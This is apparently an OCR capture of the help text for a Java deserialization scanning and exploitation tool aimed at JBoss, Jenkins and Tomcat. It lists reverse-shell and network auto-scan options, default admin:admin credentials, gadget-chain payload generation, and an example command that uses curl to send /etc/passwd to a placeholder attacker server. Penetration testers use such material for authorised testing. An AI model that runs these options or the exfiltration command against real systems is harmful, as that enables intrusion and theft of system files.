 ```
  --jenkins             Check only for Jenkins CLI vector.
  --jmxtomcat           Check JMX JmxRemoteLifecycleListener in Tomcat
                        (CVE-2016-8735 and CVE-2016-8735). OBS: Will not be
                        checked by default.
  --proxy PROXY, -P PROXY
                        Use a http proxy to connect to the target URL (eg. -P
                        http://192.168.0.1:3128)
  --proxy-cred LOGIN:PASS, -L LOGIN:PASS
                        Proxy authentication credentials (eg -L name:password)
  --jboss-login LOGIN:PASS, -J LOGIN:PASS
                        JBoss login and password for exploit admin-console in
                        JBoss 5 and JBoss 6 (default: admin:admin)
  --timeout TIMEOUT     Seconds to wait before timeout connection (default 3)

Standalone mode:
  -host HOST, -u HOST   Host address to be checked (eg. -u
                        http://192.168.0.10:8080)

Advanced Options (USE WHEN EXPLOITING JAVA UNSERIALIZE IN APP LAYER):
  --reverse-host RHOST:RPORT, -r RHOST:RPORT
                        Remote host address and port for reverse shell when
                        exploiting Java Deserialization Vulnerabilities in
                        application layer (for now, working only against *nix
                        systems)(eg. 192.168.0.10:1331)
  --cmd CMD, -x CMD     Send specific command to run on target (eg. curl -d
                        @/etc/passwd http://your_server)
  --windows, -w         Specifies that the commands are for rWINDOWS System$
                        (cmd.exe)
  --post-parameter PARAMETER, -H PARAMETER
                        Specify the parameter to find and inject serialized
                        objects into it. (egs. -H javax.faces.ViewState or -H
                        oldFormData (<- Hi PayPal =X) or others) (DEFAULT:
                        javax.faces.ViewState)
  --show-payload, -t    Print the generated payload.
  --gadget {commons-collections3.1,commons-collections4.0,groovy1}
                        Specify the type of Gadget to generate the payload
                        automatically. (DEFAULT: commons-collections3.1 or
                        groovy1 for JenKins)
  --load-gadget FILENAME
                        Provide your own gadget from file (a java serialized
                        object in RAW mode)
  --force, -F           Force send java serialized gadgets to URL informed in
                        -u parameter. This will send the payload in multiple
                        formats (eg. RAW, GZIPED and BASE64) and with
                        different Content-Types.

Auto scan mode:
  -network NETWORK      Network to be checked in CIDR format (eg. 10.0.0.0/8)
  -ports PORTS          List of ports separated by commas to be checked for
                        each host (eg. 8080,8443,8888,80,443)
  -results FILENAME     File name to store the auto scan results

File scan mode:
  -file FILENAME_HOSTS  Filename with host list to be scanned (one host per
                        line)
  -out FILENAME_RESULTS
                        File name to store the file scan results

```
